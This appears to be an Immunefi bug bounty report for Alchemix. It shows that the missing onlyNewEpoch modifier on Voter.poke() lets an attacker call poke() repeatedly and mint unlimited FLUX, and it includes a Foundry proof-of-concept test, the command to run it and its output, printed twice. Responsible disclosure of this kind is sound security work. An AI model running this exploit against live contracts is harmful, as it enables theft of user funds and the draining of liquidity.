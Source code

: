 
# Unauthorized minting of unlimited FLUX in 1 transaction

Submitted on May 2nd 2024 at 16:22:35 UTC by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30634

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The absence of the `onlyNewEpoch(_tokenId)` modifier in the `poke(uint256 _tokenId)` function of the `Voter.sol` smart contract allows anyone to call `poke(uint256 _tokenId)` multiple times within the same transaction, inflating his accrued FLUX balance.

Finally, the malicious actor calls `FLUX.claimFlux(_tokenId, _amount)` to mint unlimited tokens.

Link to asset: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol?#L195

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry test:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```

## Vulnerability Details
The internal `_vote(...)` function in the `Vote.sol` contract accrues rewards.

One of the public functions that trigger the accrual inside `_vote(...)` is `poke(...)`, which is missing the `onlyNewEpoch(_tokenId)` modifier that ensures rewards are only accrued once per epoch.

Without this modifier, an attacker can repeatedly call the `poke(...)` function within the same transaction inflating their unclaimed FLUX balance and finally mint the tokens by calling `flux.claimFlux(tokenId, unclaimedFlux)`.

## Impact Details

Minting unlimited FLUX tokens has several (quite evident) impacts. Here's some of them:

1- FLUX is an ERC20, minting unlimited FLUX leads to draining all liquidity in all AMMs where this token is deployed.

2- FLUX is used to **boost a veToken holder's voting power** and **exit a ve-position early**, so minting unlimited FLUX will completely destabilize Alchemix's ecosystem.


## Proof of Concept

To quickly test the exploit add the following foundry test to your existing tests in `alchemix-v2-dao/src/test/FluxToken.t.sol` and run:
 ```bash
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{API_KEY} --match-path src/test/FluxToken.t.sol --match-test testRepeatedFluxAccrual -vv
```
> Replace *{API_KEY} * with your Alchemy Api Key.

Foundry tests:
```javascript
    function testRepeatedFluxAccrual() external {

        // Attacker's address
        address attacker = address(0x123);

        // Create a veALCX NFT
        uint256 tokenId = createVeAlcx(attacker, 1e18, veALCX.MAXTIME(), true);
        console2.log("Attacker mints 1 veALCX NFT with tokenId:", tokenId);

        // Attacker's balance before
        uint256 fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance:", fluxBalance);

        // Attacker's unclaimed flux before
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
        console2.log("Attacker's unclaimedFlux:", unclaimedFlux);

        console2.log("------------------> ATTACK STARTS ");
        console2.log("~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance");
        for(uint256 i = 0; i < 4; i++) {
            hevm.prank(attacker);
            voter.poke(tokenId);
        }
        console2.log("------------------> ATTACK ENDS");

        unclaimedFlux = flux.getUnclaimedFlux(tokenId);

        // Claim the unclaimed flux
        hevm.prank(attacker);
        flux.claimFlux(tokenId, unclaimedFlux);

        fluxBalance = flux.balanceOf(attacker);
        console2.log("Attacker's fluxBalance after claiming:", fluxBalance);

    }
```

The output will be:
```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testRepeatedFluxAccrual() (gas: 1369039)
Logs:
  Attacker mints 1 veALCX NFT with tokenId: 1
  Attacker's fluxBalance: 0
  Attacker's unclaimedFlux: 0
  ------------------> ATTACK STARTS
  ~ Attacker calls Voter.poke(_tokenId) in a loop to inflate his unclaimed FLUX balance
  ------------------> ATTACK ENDS
  Attacker's fluxBalance after claiming: 3984666793472586540

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 24.00s (17.11s CPU time)
```